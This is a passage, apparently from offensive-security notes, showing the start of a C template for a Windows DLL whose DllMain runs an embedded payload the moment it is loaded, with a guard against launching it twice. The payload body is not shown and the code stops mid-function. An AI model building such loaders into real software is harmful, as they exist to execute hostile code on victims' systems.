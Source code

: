 ```c
```

## 03 - DLL

Main source code

```c
#include <windows.h>
#include "template.h"

#if BUILDMODE == 2
/* hand-rolled bzero allows us to avoid including ms vc runtime */
void inline_bzero(void *p, size_t l) {
	BYTE *q = (BYTE *)p;
	size_t x = 0;
	for (x = 0; x < l; x++)
		*(q++) = 0x00;
}

#endif


void ExecutePayload(void);

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	switch (dwReason) {
		case DLL_PROCESS_ATTACH:
			ExecutePayload();
			break;

		case DLL_PROCESS_DETACH:
			// Code to run when the DLL is freed
			break;

		case DLL_THREAD_ATTACH:
			// Code to run when a thread is created during the DLL's lifetime
			break;

		case DLL_THREAD_DETACH:
			// Code to run when a thread ends normally.
			break;
	}
	return TRUE;
}

// Use a combination semaphore / event to check if the payload is already running and when it is, don't start a new
// instance. This is to fix situations where the DLL is loaded multiple times into a host process and prevents the
// payload from being executed multiple times. An event object is used to determine if the payload is currently running
// in a child process. The event handle is created by this process (the parent) and configured to be inherited by the
// child. While the child process is running, the event handle can be successfully opened. When the child process exits,
// the event handle that was inherited from the parent will be automatically closed and subsequent calls to open it will
// fail. This indicates that the payload is no longer running and a new instance can be created.
BOOL Synchronize(void) {
	BOOL bResult = TRUE;
	BOOL bRelease = FALSE;
	HANDLE hSemaphore = NULL;
```